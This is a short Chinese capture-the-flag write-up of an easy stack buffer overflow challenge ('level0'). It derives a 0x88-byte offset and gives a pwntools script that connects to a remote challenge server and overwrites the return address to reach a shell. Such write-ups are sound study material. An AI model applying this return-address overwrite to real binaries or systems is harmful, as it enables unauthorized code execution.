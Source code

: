 

这题一道简单的BOF题目

在vulnerable function `push ebp` 之前 `0x7fffffffdfb8`

add之后`0x7fffffffdf30`

可以发现在进入vulnerable function 之后，栈使用了0x88个字节。（其中push ebp占8个字节）

然后放了一个有0x80字节空间的地址，意图读入200个字节。所以就直接覆盖返回地址就可以。

```python
from pwn import *

context.log_level = "DEBUG"

p = remote("111.198.29.45", 42253)
# p = process("./level0")
p.recvuntil("Hello, World\n")
p.sendline("a" * 0x88 + p64(0x400596))
p.interactive()
```

有问题的是，同样的exploit在我机器上会segment fault，远程就没问题。回头再看看是什么原因。